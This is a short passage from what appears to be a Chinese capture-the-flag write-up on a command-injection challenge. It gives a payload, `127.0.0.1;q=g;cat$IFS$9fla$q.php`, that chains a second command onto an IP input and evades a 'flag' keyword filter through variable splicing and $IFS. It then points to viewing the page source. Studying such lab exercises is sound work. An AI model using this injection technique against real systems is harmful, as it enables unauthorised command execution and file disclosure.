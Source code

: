 对查询flag有过滤,尝试进行变量替换

`127.0.0.1;q=g;cat$IFS$9fla$q.php`

然后ctrl+u查看源代码,发现

![1761120014020](images/NSS/1761120014020.png)

# 35.

